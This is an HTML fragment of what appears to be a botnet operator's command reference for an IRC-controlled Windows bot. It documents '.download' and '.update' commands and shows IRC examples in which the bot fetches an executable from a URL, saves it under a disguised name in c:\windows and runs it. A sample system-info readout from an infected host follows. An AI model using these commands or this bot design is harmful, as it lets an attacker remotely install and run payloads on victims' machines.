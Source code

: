 
<TR>
<TD class="headers">
<A href="#download_update" name="download_update">Downloads</A>
</TD>
</TR>


<TR>
<TD>
download
</TD>
<TD>
dl
</TD>
<TD>
.download &lt;url&gt; &lt;destination&gt; &lt;action&gt;
</TD>
<TD>
Downloads &lt;url&gt; and saves to &lt;destination&gt;. If &lt;action&gt; is 1, file
is also executed, otherwise it is just saved.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .download http://nsa.gov/file.exe c:\windows\devldr32.exe 1<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [DOWNLOAD]: Downloading URL: http://nsa.gov/file.exe to: c:\windows\devldr32.exe.<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [DOWNLOAD]: Downloaded 92.1 KB to c:\windows\devldr32.exe @ 92.1 KB/sec.<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [DOWNLOAD]: Opened: c:\windows\devldr32.exe.
</TD>
</TR>


<TR>
<TD>
update
</TD>
<TD>
&nbsp;
</TD>
<TD>
.update &lt;url&gt; &lt;id&gt;
</TD>
<TD>
If &lt;id&gt; is different that of already on there, the file is downloaded and updated.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .update http://nsa.gov/file.exe mouse1<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [UPDATE]: Downloading update from: http://nsa.gov/file.exe.
</TD>
</TR>



[<B>Disk</b>]: 10,506,476KB total, 4,446,864KB free. [<B>OS</b>]: Windows XP (Service Pack 1) (5.1, Build 2600).
[<B>Sysdir</b>]: C:\WINDOWS\System32. [<B>Hostname</b>]: microsoft.com (207.46.134.155). [<B>Current User</b>]: Bill Gates.
[<B>Date</b>]: 02:Jun:2004. [<B>Time</b>]: 23:04:47. [<B>Uptime</b>]: 17d 8h 28m.